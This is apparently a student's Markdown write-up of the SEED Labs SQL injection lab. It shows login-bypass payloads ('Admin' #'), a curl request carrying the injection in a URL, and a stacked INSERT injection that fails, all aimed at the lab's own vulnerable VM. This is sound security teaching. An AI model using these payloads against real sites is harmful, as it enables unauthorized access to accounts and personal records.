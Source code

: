 ```yaml
---
title: SQL Injection Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS record in `/etc/hosts` on the attacker:

```
10.0.2.4       www.SeedLabSQLInjection.com
```

# Task 1

Log in MYSQL:

```
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
```

Use such a SQL query:

```sql
select * from credential where Name = 'Alice';
```

![](./alice_profile.png)

# Task 2

## Task 2.1

- **USERNAME**: `"Admin' #"`
- **PASSWORD**: `"xyz"` whatever you like, it doesn't matter.

It will result in a SQL query as:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='xyz'
```

Then statements after `#` will be regarded as comments. So we can log in as `Admin`.

![](./full_records.png)

## Task 2.2

```
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
```

It will return a bunch of `html` code. when exporting outputs to file by `> temp.html` and open it, it looks like:

![](./html_look.png)

It contains all information we need but lacks the layout controls by a specified `CSS` file.

## Task 2.3

We need to inject such a statement to append a row to current database:

```sql
INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514');
```

So construct:

- **USERNAME**: `"a' OR 1=1; INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514') #"`
- **PASSWORD**: `""` (remain blank)

It fails and alerts with a syntax error:

![](./fail.png)

Because in PHP's `mysqli` extension, which invokes [`mysqli::query`](https://www.php.net/manual/en/mysqli.query.php) API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.